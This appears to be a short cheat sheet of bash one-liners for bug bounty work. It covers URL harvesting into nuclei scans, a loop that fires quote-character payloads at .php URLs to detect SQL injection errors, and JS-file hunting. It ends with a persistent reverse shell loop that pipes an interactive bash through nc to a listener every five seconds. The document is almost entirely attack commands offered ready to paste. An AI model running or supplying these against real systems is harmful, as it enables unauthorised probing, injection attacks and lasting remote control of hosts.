 ## Simple 1Line #BASH For #BugBounty.

```
waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast
```

```
gau TARGET.COM | grep = | tee urls.txt | nuclei -dast
```


## 1Line BASH To Perform #SQL_Injection For BugBounties.

```
cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


## LazyEgg - Hunting JS Files.

```
waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'
```


## Reverse Shell Bash Loop.

```
while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done
```
